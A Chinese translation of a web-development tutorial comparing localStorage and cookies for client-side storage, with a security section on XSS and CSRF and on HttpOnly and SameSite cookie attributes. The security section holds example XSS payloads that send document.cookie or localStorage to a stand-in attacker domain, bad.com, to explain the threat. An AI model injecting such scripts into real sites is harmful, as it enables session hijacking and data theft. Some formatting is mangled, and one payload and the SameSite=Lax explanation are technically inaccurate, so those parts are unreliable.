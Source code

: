 # 本地存储与 Cookies:在客户端哪里安全地存储数据？

> 原文：<https://javascript.plainenglish.io/local-storage-vs-cookies-where-to-securely-store-data-on-the-client-side-de37bf050ca5?source=collection_archive---------12----------------------->

![](img/ff92cff6ec9f6df345b876448013daba.png)

在客户端哪里存储数据？Cookies 还是本地存储？哪个更适合缓存，哪个更持久？哪个更安全，哪个容易受到 [XSS](https://medium.com/@akshaydagar98/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a) 和 [CSRF](https://owasp.org/www-community/attacks/csrf) 的攻击？在哪里存放您的 JWT 访问令牌？在这篇文章中找到答案！

首先，让我们讨论它们是什么，并检查它们的优点和缺点:

**网络存储 API:**

本地存储和会话存储，统称为 Web 存储 API，提供了在浏览器中存储 *key: value* 对的机制，并被视为 cookiess 的替代方案，cookie 早期用于在浏览器中存储应用程序数据。许多应用程序使用这些来缓存数据以实现更快的访问，或者存储和持久化重要信息，如授权令牌或其他数据。

会话存储保存数据直到浏览器选项卡或会话关闭，本地存储保存数据直到被用户或代码手动删除。除此之外，本地和会话存储是相同的。以下是如何使用它们:

```
localStorage.setItem(key, value);        //set value with key
localStorage.getItem(key);               //get value with key
localStorage.removeItem(key);            //remove the key value pair
```

键和值必须是字符串。localStorage 本身是一个简单的 JavaScript 对象。

**饼干:**

HTTP cookie 是一个字符串，像本地和会话存储一样存储在浏览器中。Cookie 由 web 服务器创建并发送给客户端，作为 HTTP 响应的一部分，包括" *Set-Cookie"* 头:

```
Set-Cookie: key=value
```

然后，客户端的浏览器存储这个 cookie(作为一个 key=value 对的字符串),并在每个后续的 HTTP 请求中将其发送给服务器。这些可以用来维护 HTTP 通信的客户端状态(比如会话信息)，这是无状态的。

请注意，cookies 也可以从客户端添加。按 f12 打开开发人员工具，导航到控制台并执行以下代码:

```
document.cookie = "mykey=myvalue"
```

现在转到应用程序选项卡-> cookie，您将能够在您的 cookie 中看到 mykey=myvalue。在 web 存储 API 发明之前，许多开发人员利用这一点在浏览器中持久存储或缓存数据。

# **本地存储与用于存储、持久化和缓存数据的 cookie:**

**持久性:**本地存储没有到期时间。它必须由用户删除或使用 localStorage.removeItem()函数删除。Cookies 有两种类型:

*   **会话 Cookies**:这些 cookie 会持续到浏览器会话结束。
*   **永久 Cookies** :在*Expires*属性*指定的日期和时间删除。*

**大小:**本地存储(每个域 5 MB)比 cookies(每个域 4 KB)大得多。

**数据类型:**本地存储是可以存储 key: value (string，string)对的对象。如果你想存储 JSON 数据，你必须先把它转换成字符串，幸好有一个简单的方法可以做到这一点:

```
//object to string and store
JSON.stringify(object_to_be_stored) //stored string back to object
JSON.parse(string_value_from_local_storage)
```

cookie 是这种格式的字符串:*“key 1 = value 1；key2 = value2"*。要访问它，使用 *document.cookie，*然而，要获得一个特定的键值对，您必须解析这个字符串。

还要记住，将数据存储在 cookies 中意味着它将随每个 HTTP 请求一起发送，从而浪费带宽。这就是为什么 cookie 的大小被限制为 4 KB。

# **安全:**

现在最重要的讨论来了:哪个更安全，哪个能被偷？让我们以 XSS 和 CSRF 攻击为背景来看看这一点，这些攻击是窃取信息和在客户端执行恶意操作的常见方式。

跨站脚本(XSS)攻击是一种注入式攻击，在这种攻击中，恶意脚本可能被注入到文档中并被执行。[这里有一篇短文总结了这类攻击以及如何防范它们](https://medium.com/@akshaydagar98/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a)。

[跨站点请求伪造(CSRF)](https://owasp.org/www-community/attacks/csrf) 是一种攻击模式，攻击者欺骗受害者向他们已经通过身份验证的站点发送恶意请求，以执行不想要的操作。由于浏览器会自动在 HTTP 请求中包含某些信息，如 cookies 和 IP 地址，因此易受攻击网站的服务器可能无法区分受害者被操纵发送的伪造请求和真实请求。

**Cookies** 易受 XSS(跨站点脚本)和 CSRF(跨站点请求伪造)攻击，但有办法减轻它们。

让我们看看一个恶意代理如何通过将以下脚本注入到您的网站(XSS)来窃取属于特定域的 cookies。从今以后，我将把您的网站(易受攻击的网站)称为“**”*，把攻击者的网站(恶意网站)称为*”****bad.com****:**

```
**<script>fetch("http://www.bad.com?stolenGoods=" + document.cookie)</script>**
```

**如果这个脚本被您的文档执行，它会将您网站上用户的 cookie(*good.com)*连同请求一起发送到攻击者的域(*bad.com*)，然后攻击者可以使用它来冒充*good.com*上的用户，或者获取您作为 cookie 的一部分存储的用户数据。**

**但是，cookies 中内置了一些机制来减轻此类攻击:**

****HttpOnly** :在服务器上设置 cookie 头时，可以将 cookie 指定为 HttpOnly。这将阻止使用“*document . cookie”*或任何其他 javascript 代码访问 cookie:**

```
**Set-Cookie: id=xyz; HttpOnly**
```

**请注意，将 cookie 设置为 HttpOnly 将使客户端 javascript 无法访问它，因此您不能为您在客户端创建的 cookie 设置该属性，这意味着它们仍然是不安全的，容易受到 XSS 的攻击！服务器设置的 cookies 呢？**

**有一种误解认为将 cookie 设置为 HttpOnly 可以防止它通过 XSS 攻击被窃取。虽然这阻止了 javascript 访问您的 cookie，但是您必须记住，cookie 总是作为报头与每个 HTTP 请求一起发送。这意味着攻击者仍然可以通过简单地向自己的服务器发送请求，从易受攻击的网站(【good.com】T4)(其中有一个 XSS 脚本在执行)访问用户的 cookie。cookie 将自动作为请求标题包含在内！！！**

```
**<script>fetch("http://www.bad.com")</script>
// the cookie will be there as part of the request header and bad.com's server can then access it**
```

**谢天谢地，有一种方法可以防止这种情况发生。**

****SameSite** :这个 cookie 属性指定了 cookie 是否/何时随跨站点请求一起发送的规则。**

```
**Set-Cookie: key=val; HttpOnly; SameSite=Strict
// the cookie will only be sent with http requests to the same site where it originated. good.com's cookies won't be sent in requests to bad.comSet-Cookie: key=val; HttpOnly; SameSite=Lax
// same as Strict, but cookie will also be sent if request to the site originates from another site.**
```

**注意，由于 SameSite = Lax，CSRF 攻击有可能利用这一点。*bad.com*可以向*good.com*发送一个请求，cookie 将包含在该请求中(即使*bad.com*本身无法读取 cookie)。**

****本地存储**也容易受到 XSS 攻击，但不会受到 CSRF 攻击。**本地存储只能在同一个域上访问**。没有简单的方法来防止本地存储数据被 XSS 攻击窃取。与 cookies 不同，没有任何属性可以阻止通过 javascript 访问本地存储(如果有，那就违背了本地存储的全部目的)。**

**因此，如下所示的 XSS 脚本可以窃取*good.com*上的本地存储数据，并将其发送到*bad.com*:**

```
**<script>fetch("http://www.bad.com?stolenGoods=window.localStorage")</script>**
```

**那么这是否意味着 cookies 在浏览器上存储数据比本地存储更安全呢？的确，我们可以严格限制读取 cookies 的能力，只允许 good.com 的服务器读取，而本地存储数据可以被攻击者通过 XSS 攻击访问。**

**请注意，这只适用于服务器设置的 cookies。如果您想通过以下方式将用户的信用卡信息作为 cookie 添加到浏览器中进行缓存，它将像本地存储数据一样容易受到 XSS 攻击，因为您不能将其设置为 HttpOnly:**

```
**document.cookie = "creditCardNumber=XXXXXXXXXX; HttpOnly"
//won't workdocument.cookie = "creditCardNumber=XXXXXXXXXX;"
//works but can be accessed by JavaScript, hence vulnerable to XSS**
```

**为了总结安全性讨论，让我们看看应该使用什么来在客户端存储和缓存数据，以及应该在哪里存储只需要由服务器访问的数据，如 auth 令牌:**

****在客户端存储数据**(用于缓存或持久化):您可以使用两个选项中的任何一个，因为它们都是同等安全的(或者说，同等不安全)。本地存储数据不能跨站点访问，cookies 也可以使用 *SameSite=strict，*进行限制，但它们都可以通过 JavaScript 访问，因此容易受到 XSS 的攻击，如果不是 CSRF 的话。**

**本地(或会话)存储更可取，因为它的大小更大(对于 cookies 是 5 MB 对 4 KB ),并且它不随每个 HTTP 请求一起发送，因此节省了带宽。**

****为服务器端**(如 JWTs)存储会话信息:服务器设置这些 cookie，因此将它们标记为 HttpOnly 将防止客户端 JavaScript 访问它们，用 *SameSite=strict* 标记它们将不会允许这些 cookie 被发送到其他域，从而防止通过 XSS 或 CSRF 攻击的操纵。**

**另一方面，存储在本地存储器中的授权令牌可以通过 XSS 攻击被窃取。此外，cookies 会随请求自动发送，而对于本地存储中的令牌，您必须编写代码来手动设置 HTTP 请求的授权头。因此，Cookies 更适合这种情况。**

**此外，请注意，如果您的网站容易受到 XSS 攻击，没有什么是真正安全的。恶意脚本可以向 *good.com 的*服务器发送请求(cookie 会被自动收录，尽管如果是 HttpOnly 脚本无法读取)，然后通过另一个 HTTP 请求将*good.com*的响应发送到 *bad.com 的*服务器。因此，如果您的站点容易受到 javascript 注入攻击，它就完了！[在这里，您可以找到更多关于如何防止此类攻击的信息](https://medium.com/@akshaydagar98/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a)。**

**请记住，在客户端没有什么是绝对安全的！**

***更多内容请看* [***说白了就是***](https://plainenglish.io/) *。***

***报名参加我们的* [***免费周报***](http://newsletter.plainenglish.io/) *。关注我们上* [***推特***](https://twitter.com/inPlainEngHQ) ， [***领英***](https://www.linkedin.com/company/inplainenglish/) ***，***[***YouTube***](https://www.youtube.com/channel/UCtipWUghju290NWcn8jhyAw)***，以及****[***不和***](https://discord.gg/GtDtUAvyhW) ***

*****用*** [***电路***](https://circuit.ooo/?utm=publication-post-cta) *为你的科技创业建立认知和采用。***